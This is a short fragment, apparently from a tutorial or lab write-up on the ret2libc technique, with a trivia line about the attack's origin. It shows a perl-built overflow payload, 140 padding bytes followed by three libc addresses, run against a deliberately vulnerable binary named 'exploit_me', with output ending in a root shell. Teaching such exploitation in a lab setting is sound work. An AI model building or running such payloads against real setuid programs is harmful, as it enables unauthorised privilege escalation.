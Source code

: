````bash
$./exploit_me $(perl -e 'print "Z"x140, "\x60\xb0\xe6\xb7", "\xe0\xeb\xe5\xb7", "\x58\xcc\xf8\xb7"')
ZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZ`�����X��
$ whoami
root
````

Trivia : ret2libc attack was first performed by Александр Песляк in 1997, the author of John the Ripper.
